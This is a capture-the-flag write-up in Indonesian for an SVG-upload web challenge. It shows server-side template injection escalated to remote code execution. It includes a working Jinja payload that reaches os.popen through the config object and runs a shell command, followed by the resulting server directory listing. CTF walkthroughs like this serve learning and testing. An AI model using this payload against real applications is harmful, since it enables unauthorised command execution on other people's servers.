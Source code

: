 
## 8. Bad Parser Bad Templater [486pts]

Disediakan website yang hanya memiliki fitur upload file svg. Mencoba upload file svg kosong yang valid. Didapati response source sebagai berikut.

```html
..[snip]..
image None
..[snip]..
```

Template Injection, dengan menambahkan `{%raw%}{{ 2\*2 }}{%endraw%}` pada svg file.

```html
..[snip]..
image 4
..[snip]..
```

Selanjutnya dilakukan template injection dengan menggunakan fungsi dari os module python yaitu `os.popen()` untuk mendapatkan RCE.

```html
<svg>
    <image>{%raw%}{{ config.__class__.__init__.__globals__['os'].popen('ls -la /').read() }}{%endraw%}</image>
</svg>
```

Sebelumnya menggunakan `[]` dll, tetapi gagal `(Internal Server Error)`. Dan mencari-cari payload diinternet, didapatkan menggunakan `config` dan berhasil.

```sh
..[snip]..image total 84
drwxr-xr-x   1 root root 4096 Aug 28 02:18 .
drwxr-xr-x   1 root root 4096 Aug 28 02:18 ..
-rwxr-xr-x   1 root root    0 Aug 28 02:18 .dockerenv
drwxr-xr-x   1 root root 4096 Aug 28 02:00 app
drwxr-xr-x   1 root root 4096 Aug  4 23:27 bin
drwxr-xr-x   2 root root 4096 Jul 10 21:04 boot
drwxrwxr-x   3 ctf  ctf  4096 Aug 28 01:02 code
drwxr-xr-x   5 root root  340 Aug 28 02:21 dev
drwxr-xr-x   1 root root 4096 Aug 28 02:18 etc
drwxr-xr-x   1 root root 4096 Aug 28 02:00 home
drwxr-xr-x   1 root root 4096 Aug  4 23:27 lib
drwxr-xr-x   2 root root 4096 Aug  3 07:00 lib64
-rw-rw-r--   1 root root   40 Aug 25 03:20 loooool_ini_lho_fl4gnya
drwxr-xr-x   2 root root 4096 Aug  3 07:00 media
drwxr-xr-x   2 root root 4096 Aug  3 07:00 mnt
drwxr-xr-x   2 root root 4096 Aug  3 07:00 opt
dr-xr-xr-x 505 root root    0 Aug 28 02:21 proc
drwx------   1 root root 4096 Aug 28 02:00 root
drwxr-xr-x   3 root root 4096 Aug  3 07:00 run
drwxr-xr-x   1 root root 4096 Aug  4 23:26 sbin
drwxr-xr-x   2 root root 4096 Aug  3 07:00 srv
dr-xr-xr-x  13 root root    0 Aug 28 02:21 sys
drwxrwxrwt   1 root root 4096 Aug 28 03:43 tmp
drwxr-xr-x   1 root root 4096 Aug  3 07:00 usr
drwxr-xr-x   1 root root 4096 Aug  3 07:00 var
..[snip]..
```

